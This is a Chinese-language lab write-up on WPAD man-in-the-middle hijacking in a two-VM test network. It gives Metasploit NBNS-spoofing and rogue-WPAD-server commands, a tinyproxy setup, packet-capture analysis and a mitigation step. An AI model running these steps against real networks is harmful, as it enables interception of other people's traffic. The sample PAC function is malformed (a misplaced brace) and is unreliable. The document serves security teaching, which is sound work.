










# WPAD中间人劫持

----------

## WPAD简介
### 概述
* Web Proxy Aytodiscovery Protocol(WPAD)是让web浏览器使用DNS或DHCP自动检测PAC文件位置的协议。通常情况下，浏览器会先使用DHCP来查找PAC文件的位置。
* 
### 通过DHCP查询
* 假设客户端网络名称是`laptop01.us.division.company.com`。客户端想DHCP server发送DHCPINFORM，服务器端返回的DHCP ACK中的252项记录了PAC文件的位置。
* 
### 通过DNS查询
* `wpad.company.com`的主机存储了名为wpad.bat的PAC文件，浏览器尝试从`http://wpad.us.division.company.com/wpad.dat.`下载PAC文件，若无法解析该域名，则进入子节点查询，直到找到PAC文件。
* 
## PAC简介
* Proxy Auto-Configuration(PAC)文件是Web浏览器用于为给定URL选择代理的方法。选择代理的方法被写成JavaScript函数封装在PAC文件中。若浏览器无法通过DHCP和DNS加载PAC文件，则浏览器将直接进行网路访问。
	* 举例一个PAC文件，内容如下：
	<pre>
	function FindProxyForURL(url, host) {
	if (shExpMatch(url,"ipcheckit.com/data/*"))
	 return "DIRECT";
	}
	if (isInNet(myIpAddress(), "10.10.1.0", "255.255.255.0"))
	 return "PROXY proxy182.scansafe.net:8080; PROXY proxy137.scansafe.net:8080";
	</pre>
	* 上述函数中,用户请求的URL将和`ipcheckit.com/data/*`进行匹配，如果匹配成功，则直接进行网络访问。否则，判断用户IP地址是否在`10.10.1.*`范围内，如果在，则浏览器的流量将通过`proxy182.scansafe.net:8080`进行转发,若此代理发生故障,则将请求转发给`proxy137.scansafe.net:8080`.
	* 通常情况下PAC文件被命名为proxy.pac
* PAC文件部署方式
	* 本地托管
	* 托管到Windows share
	* **托管到web服务器**

## 实验过程
### step0 实验环境
* 攻击者
	<pre>
	名称：Attacker
	版本:Linux Debian(64-bit)
	网络模式：NAT 网络
	网卡：eth0
	IP：10.0.2.10
	</pre>
* 受害者
	<pre>
	名称：Victim
	版本:Windows 7(64-bit)
	网络模式：NAT 网络
	网卡：eth0
	IP：10.0.2.12
	</pre>
* 使用工具
	<pre>
	Metasploit #渗透测试工具，本实验中用于监听NBNS广播及响应
	tinypyoxy #搭建Linux代理服务器
	</pre>
### step1 寻找漏洞
* NetBios Name Service(NBNS)
	* NBNS是`NetBIOS-over-TCP`协议的一部分,在Windows中通常称为WINS(NetBIOS-over-TCP),其功能与DNS相似,将域名转换为IP地址。在Windows中此服务默认开启，开机或开启浏览器都会向所在网段发送NBNS广播,尝试通过伪装WPAD服务器来向靶机发送攻击者自己编写的PAC文件.
	* 过程
		
### step2 漏洞测试
* 监听NBNS查询
	<pre>
	use auxiliary/spoof/nbns/nbns_response
	set regex WPAD
	set spoofip 10.0.2.10
	run
	</pre>
* 配置WPAD服务器
	<pre>
	use auxiliary/server/wpad
	set proxy 10.0.2.10
	run
	</pre>
* Attacker搭建代理服务器
	* 编辑配置
		<pre>
		vim /etc/tinyproxy/tinyproxy.conf
		/# Allow 127.0.0.1 注释该行内容，表示对任意IP都进行代理
		PORT 8080 #代理端口默认为8888，改为8080
		</pre>
	* 重启配置<pre>/etc/init.d/tinyproxy restart</pre>
	* 开启代理服务<pre>service tinyproxy start</pre>
* 开启抓包器<pre>root@Attacker:~# tcpdump -i eth0 -w 20190105</pre>
* Victim发送NBNS广播，在浏览器搜索`bing.com`作为测试。能正常加载网页。
	
* 打开wireshark查看抓包结果,可以看到红红色框内的过程:
	1. Victim发送nbns广播
	2. Attacker伪装的NetBIOS服务器响应
	3. Victim请求PAC文件
	4. Attacker发送PAC文件
	
* 黄色框内是Victim访问的网站，数据经过Attacker进行转发。
* 数据包分析
	* 靶机请求PAC文件
	* 
	* 攻击者发送PAC文件，文件内容:如果是本地地址，直接进行网络访问，否则通过`10.0.2.10:8080`进行代理。
	* 
* 查看靶机NB缓存，发现缓存内有IP为`10.0.2.10`的WPAD服务器地址，攻击成功。
	
* 至此，实验成功。
## 遇到的问题
* 靶机在进行网络访问时数据包并没有经过攻击者
	* 用wireshark分析抓包结果发现靶机向攻击者的`8080端口`发送`TCP SYN`时，攻击者回复的是`RST+ACK`。
		
	* 分析:很显然，这表示攻击者的`8080端口`并未开放，靶机在尝试建立TCP连接失败后采用PAC文件提供的第二种方式进行网络访问，这就表明攻击者并没有开启代理服务。回想我之前做实验时认为`msfconsole`在搭建WPAD服务器时同时搭建了代理服务器，看来并不是。所以使用工具`tinyproxy`搭建代理服务器，问题解决。
		
### step3 漏洞防护
* 让计算机不去自动检测WPAD服务即可：网络→Internet选项→连接→局域网设置→取消勾选的`自动检测设置(A)`
	
## 参考资料
* [WIKI_WPAD](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol)
* [CISCO_WPAD](https://www.cisco.com/c/en/us/td/docs/security/web_security/connector/connector3000/WPADAP.html)
* [How PAC Files Work](https://www.cisco.com/c/en/us/td/docs/security/web_security/connector/connector3000/PACAP.html#wpxref19672)
* [wpad-introduction](https://findproxyforurl.com/wpad-introduction/)
* [wireshark_NBNS](https://wiki.wireshark.org/NetBIOS/NBNS)
* [2017-2/zan_mw](https://github.com/kjAnny/ns/tree/collaboration/2017-2/zan_mw)
* [wpad_weakness_en.pdf](https://www.ptsecurity.com/upload/corporate/ww-en/download/wpad_weakness_en.pdf)